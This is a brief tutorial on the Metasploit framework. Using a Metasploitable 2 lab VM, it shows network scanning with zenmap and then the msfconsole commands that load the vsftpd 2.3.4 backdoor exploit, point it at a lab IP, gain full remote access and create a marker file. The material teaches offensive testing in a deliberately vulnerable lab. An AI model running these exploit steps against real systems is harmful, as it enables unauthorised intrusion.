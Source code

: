 -----

* title: Metasploit
* description: This article is dedicated to Metasploit framework.
* created: 23-07-2021 16:14:00
* modified: 23-07-2021 16:14:00
* keywords: gnu, linux, admin, network, security, hacking
* lang: en

-----

# Introduction

Metasploit is a framework for testing and abusing know vulnerabilities.

# Background information

To test out Metasploit, you should better make use of very vulnerable 
programs. For instance Metasploitable Operating system is especially created 
for this purpose. An Operating system dedicated for learning purposes and 
which has tons of applications installed know to be very vulnerable. This is 
very interesting in learning and using tools to hack know vulnerable programs.

So to start with this all, install the Metasploitable virtual machine which 
you can download here: https://sourceforge.net/projects/metasploitable/files/Metasploitable2/

Once downloaded you can easily configure an virtual machine, by making use 
of Vmware or Virtual box.

# Simple example

Based on a virtual host machine `Metasploitable 2.0.` which contains a lot 
of known exploitable vulnerabilities.

On the host machine, use `zenmap` and do a `Quick Scan Plus` to discover the 
devices on your network. Once you have found all devices connected to your 
network, you can do an `Intense scan` on the IP of that `Metasploitable` 
virtual machine. In my case, that `0Metasploitable 2.0` virtual machine has the 
ip address `10.0.2.6`.

So to start with, run Metasploit with as `root` user:

    msfconsole

This will load the Metasploit framework.

    use exploit/unix/ftp/vsftpd_234_backdoor

Then set the remote host ip in the options with:

    set RHOST 10.0.2.6

Start the exploit:

    exploit

From now, you are on the remote host and you have full access on the remote 
host.

    touch /tmp/your-been-hacked

And you can verify on that host machine to check if the file `touch 
/tmp/your-been-hacked` has been created.
